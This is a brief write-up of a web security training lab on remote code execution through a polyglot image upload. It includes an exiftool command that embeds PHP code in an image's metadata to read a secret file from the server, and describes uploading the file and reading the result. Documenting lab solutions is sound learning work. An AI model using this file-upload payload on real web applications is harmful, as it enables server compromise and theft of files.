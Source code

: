 # Remote code execution via polyglot web shell upload 

#WRITEUP <br> <hr> <br> 
## Recon 

Interact with the image upload functionality. The app validates the uploaded file content meaning it will only accept images.

## Vulnerability assessment

The lab gives a hint about a polyglot. Looking into it it may be possible to embed PHP code within an image metadata using exiftool.

```
exiftool -Comment="<?php echo 'secret ' . file_get_contents('/home/carlos/secret') . ' secret'; ?>" image.jpg -o polyglot.php
```

## Exploitation

Upload the generated payload

![[upload.png]]

Then intercept the response for the "avatar image"

![[FileUploadVulnerabilites/labs/Remote code execution via polyglot web shell upload/images/exploit.png]]

It contains the secret between the provided separators, upload the secret and the lab is solved.


